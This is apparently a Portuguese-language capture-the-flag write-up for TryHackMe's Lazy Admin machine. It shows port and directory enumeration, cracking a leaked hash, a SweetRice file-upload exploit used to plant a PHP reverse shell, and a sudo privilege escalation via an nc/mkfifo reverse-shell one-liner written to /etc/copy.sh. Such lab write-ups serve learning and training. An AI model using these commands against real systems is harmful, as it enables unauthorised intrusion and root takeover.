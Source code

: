 <h1><b>Segue Writeup da maquina Lazy Admin Final do Try Hack Me</h1>

<br><br>
<b>Enumeração das portas com o NMAP 
  
```
┌──(xnv㉿kali)-[~]
└─$ nmap -A 10.10.49.240

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-16 04:08 EDT
Nmap scan report for lazyadmin.com (10.10.240.121)
Host is up (0.26s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.82 seconds
```

<b>Eumeração de arquivos e pastas com o WFUZZ
  
```
┌──(xnv㉿kali)-[~]
└─$ wfuzz -c -w /usr/share/dirb/wordlists/common.txt --hc 404,403 -u http://10.10.49.240/FUZZ -t 100

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000001:   200        375 L    968 W      11321 Ch    "http://10.10.49.240/"
000001027:   301        9 L      28 W       314 Ch      "content"
000002020:   200        375 L    968 W      11321 Ch    "index.html"
```
<b>Após encontrar a pasta "content", fiz uma nova enumeração das pastas colocando o content
  
```
┌──(xnv㉿kali)-[~]
└─$ wfuzz -c -w /usr/share/dirb/wordlists/common.txt --hc 404,403 -u http://10.10.49.240/content/FUZZ -t 100
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000001:   200        35 L     151 W      2198 Ch     "http://10.10.49.240/content/"
000000478:   301        9 L      28 W       317 Ch      "as"
000000505:   301        9 L      28 W       325 Ch      "attachment"
000000089:   301        9 L      28 W       322 Ch      "_themes"
000001991:   301        9 L      28 W       321 Ch      "images"
000002010:   301        9 L      28 W       318 Ch      "inc"
000002021:   200        35 L     151 W      2198 Ch     "index.php"
000002179:   301        9 L      28 W       317 Ch      "js"
```
<b>Depois de verificar as pastas e arquivos listados, encontrei um arquivo .sql 
  
![Capturar](https://user-images.githubusercontent.com/90646635/133702386-4aca21e1-f88d-4a3b-b77b-eceedbc6dd0b.PNG)

<b>Nesse arquivo .sql você irá encontrar um usuário e senha para logar na aplicação.
  
```
"admin\\";s:7:\\"*******\\";s:6:\\"passwd\\";s:32:\\"********************************\\"
```

<b>Para quebrar esse hash usei o "https://crackstation.net/", com o usuário e senha é só acessar a aplicação no url.
  
![2](https://user-images.githubusercontent.com/90646635/133703615-493a9493-20bf-421b-9af9-090b59e23e94.PNG)

  
<b>Logado vi que se tratava de uma aplicação chamada SweetRice com a versão 1.5.1, com essas informações fui caçar no "https://www.exploit-db.com/"
  
![3](https://user-images.githubusercontent.com/90646635/133704110-9ba96cc1-a21c-47aa-99b5-0d4be571cb21.PNG)

<b>O exploit vai fazer upload de um arquivo para o servidor, então coloquei uma Web Shell, mas o exploit pede algumas extensões especificas escolhi a .php5
  
```
┌──(xnv㉿kali)-[~/thm/lazyadminfinal]
└─$ mv php-reverse-shell.php php-reverse-shell.php5
```
<b>Então Vamos executar o Exploit, ele irá pedir as seguintes informações, URL , USERNAME , PASSWORD , FILE
  
```
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |                                                    
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : 10.10.49.240/content
Enter Username : *******
Enter Password : ***********
Enter FileName (Example:.htaccess,shell.php5,index.html) : php-reverse-shell.php
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.10.49.240/content/attachment/php-reverse-shell.php5
```
  
Colocamos o netcat para ficar aguardando a Web Shell   
```
┌──(xnv㉿kali)-[~/thm/lazyadminfinal]
└─$ nc -lnvp 4455 
```
  
<b>Com a Web Shell no servidor e o netcat aguarando uma resposta, é só dar um Curl nela que será executada.
  
```
┌──(xnv㉿kali)-[~/thm/lazyadminfinal]
└─$ curl http://10.10.49.240/content/attachment/php-reverse-shell.php5
```
<b>E então temos uma Shell no servidor
  
![4](https://user-images.githubusercontent.com/90646635/133705881-0f406078-6a64-473a-a52a-52275830e835.PNG)
  
<b>E então pegamos a flag User 
  
```  
www-data@THM-Chal:/home/itguy$ cat user.txt
THM{********************************}
```
  
<b> Para encontrar a flag Root, damos um 
  
```
www-data@THM-Chal:/home/itguy$ sudo -l

Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
<b> No arquivo backup.pl, mostra que ele executa um arquivo que está em /etc/
  
![5](https://user-images.githubusercontent.com/90646635/133706646-9251298c-0345-4556-abf0-b5c7411e4658.PNG)

<b> Então coloquei um reverse shell lá dentro já que eu tinha permissão para isso.

```
www-data@THM-Chal:/home/itguy$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.0.21 4445 >/tmp/f" > /etc/copy.sh
```
  
<b> Liguei outro netcat ouvindo a porta 4445
 
``` 
┌──(xnv㉿kali)-[~]
└─$ nc -lnvp 4445
```
  
<b>E executei o arquivo backup
  
```
www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl
```
<b> E assim temos o usuario root, é só ler o arquivo root.txt
  
```
# cat /root/root.txt
THM{********************************}  
```
